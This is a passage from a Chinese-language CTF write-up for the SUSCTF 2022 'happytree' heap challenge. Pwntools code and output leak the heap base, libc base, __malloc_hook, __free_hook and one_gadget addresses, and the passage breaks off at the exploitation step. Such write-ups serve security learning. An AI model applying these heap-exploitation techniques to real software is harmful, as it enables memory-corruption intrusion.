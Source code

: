 减去对应的偏移即可得到heap基地址；

```python
    # -- leak heap base
    show(0x80)

    p.recvuntil("content: ")
    heap_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x12041
    log.success("heap_base => " + hex(heap_base))
```

接着泄露libc基地址；

```python
    # -- leak libc_base
    insert(0x87, "babeface")
    show(0x87)
    p.recvuntil("babeface")
    malloc_hook = u64(p.recv(6).ljust(8,b'\x00')) - 112
    libc_base = malloc_hook - 0x00000000003ebc30
    free_hook = libc_base + 0x00000000003ed8e8
    log.success("__malloc_hook => " + hex(malloc_hook))
    log.success("libc_base => " + hex(libc_base))
    log.success("__free_hook => " + hex(free_hook))
```

这里借助`insert(0x86, "babeface")`申请掉最后一个tcachebins中的chunk，随后申请位于unsorted bin中的chunk；

![](./ctf-susctf2022-happytree/leak_libc_base.jpg)

可以看到，fd被新的content覆盖，而bk没有被清空，使用show(0x87)，即可得到该地址。利用main_arena和__malloc_hook之间相差0x10的关系，从而找到了libc_base，由此便可以得到其他的可利用函数地址；

```
[+] __malloc_hook => 0x7f1a7bf13c30
[+] libc_base => 0x7f1a7bb28000
[+] __free_hook => 0x7f1a7bf158e8
[+] one_gadget[0] => 0x7f1a7bb77365
[+] one_gadget[1] => 0x7f1a7bb773c2
[+] one_gadget[2] => 0x7f1a7bc3245c
```

## 利用

拿到了泄露出的地址，接下来需要进行利用。

前面获得了堆的地址(heap base)，
